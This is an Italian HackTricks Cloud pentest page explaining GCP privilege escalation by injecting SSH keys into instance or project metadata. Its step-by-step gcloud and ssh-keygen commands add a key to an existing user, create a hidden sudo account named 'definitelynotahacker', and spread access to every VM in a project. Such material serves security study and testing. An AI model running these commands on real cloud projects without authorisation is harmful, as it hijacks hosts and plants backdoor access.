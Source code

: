 # GCP - Aggiungi Metadati SSH Personalizzati

## GCP - Aggiungi Metadati SSH Personalizzati

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

### Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe portare a **significativi rischi per la sicurezza se un attaccante ottiene i permessi necessari**.

#### **Incorporazione di chiavi SSH nei metadati personalizzati**

Su GCP, **i sistemi Linux** spesso eseguono script dall'[Ambiente Ospite Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), progettato per **controllare regolarmente** l'endpoint dei metadati dell'istanza per **aggiornamenti alle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta al file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

#### **Aggiungi chiave SSH a un utente privilegiato esistente**

1. **Esamina le chiavi SSH esistenti sull'istanza:**
*   Esegui il comando per descrivere l'istanza e i suoi metadati per localizzare le chiavi SSH esistenti. La sezione rilevante nell'output sarà sotto `metadata`, specificamente la chiave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Fai attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separato da due punti.
2. **Prepara un file di testo per i metadati della chiave SSH:**
* Salva i dettagli dei nomi utente e delle loro corrispondenti chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per preservare le chiavi esistenti mentre ne aggiungi di nuove.
3. **Genera una nuova chiave SSH per l'utente target (`alice` in questo esempio):**
*   Usa il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandoti che il campo commento (`-C`) corrisponda al nome utente target.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Aggiungi la nuova chiave pubblica a `meta.txt`, mimando il formato trovato nei metadati dell'istanza.
4. **Aggiorna i metadati della chiave SSH dell'istanza:**
*   Applica i metadati aggiornati della chiave SSH all'istanza utilizzando il comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Accedi all'istanza utilizzando la nuova chiave SSH:**
*   Connettiti all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente target (`alice` in questo esempio).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crea un nuovo utente privilegiato e aggiungi una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno concessi privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile ampliare l'accesso SSH a più Macchine Virtuali (VM) in un ambiente cloud **applicando le chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non ha esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le chiavi SSH a livello di progetto:**
*   Usa il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute in tutte le VM del progetto, a meno che una VM non abbia abilitato l'opzione "Blocca le chiavi SSH a livello di progetto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH nelle istanze utilizzando le chiavi a livello di progetto:**
* Con le chiavi SSH a livello di progetto in atto, puoi SSH in qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo accesso.
* Un metodo diretto per SSH in un'istanza è utilizzare il comando `gcloud compute ssh [INSTANCE]`. Questo comando utilizza il tuo nome utente attuale e le chiavi SSH impostate a livello di progetto per tentare l'accesso.

## Riferimenti

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
